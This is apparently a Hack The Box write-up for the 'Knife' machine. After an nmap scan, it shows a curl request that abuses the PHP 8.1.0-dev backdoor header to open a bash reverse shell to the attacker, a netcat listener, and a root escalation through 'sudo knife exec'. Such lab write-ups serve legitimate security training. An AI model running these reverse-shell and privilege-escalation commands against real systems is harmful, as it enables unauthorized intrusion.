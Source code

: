 # Target
| Category          | Details                                            |
|-------------------|----------------------------------------------------|
| 📝 **Name**       | [Knife](https://app.hackthebox.com/machines/Knife) |  
| 🏷 **Type**       | HTB Machine                                        |
| 🖥 **OS**         | Linux                                              |
| 🎯 **Difficulty** | Easy                                               |
| 📁 **Tags**       | PHP/8.1.0-dev, sudo, knife                         |

# Scan
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
```

# Attack path
1. [Gain initial foothold using backdoor in PHP/8.1.0-dev](#gain-initial-foothold-using-backdoor-in-php810-dev)
2. [Escalate to `root` user using misconfigured sudo for Chef `knife` command](#escalate-to-root-user-using-misconfigured-sudo-for-chef-knife-command)

### Gain initial foothold using backdoor in PHP/8.1.0-dev

#### Listen for reverse shell connection with `netcat`
```
┌──(magicrc㉿perun)-[~/attack/HTB Knife]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Spawn reverse shell connection using backdoor in `User-Agentt` HTTP header
```
┌──(magicrc㉿perun)-[~/attack/HTB Knife]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
LPORT=4444
curl http://$TARGET -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'\");"
```

#### Receive reverse shell connection
```
connect to [10.10.14.81] from (UNKNOWN) [10.129.167.153] 40454
bash: cannot set terminal process group (891): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ id
id
uid=1000(james) gid=1000(james) groups=1000(james)
```

### Escalate to `root` user using misconfigured sudo for Chef `knife` command

#### List allowed sudo commands
```
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

#### Spawn root shell using `knife exec` command
```
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
id
uid=0(root) gid=0(root) groups=0(root)
```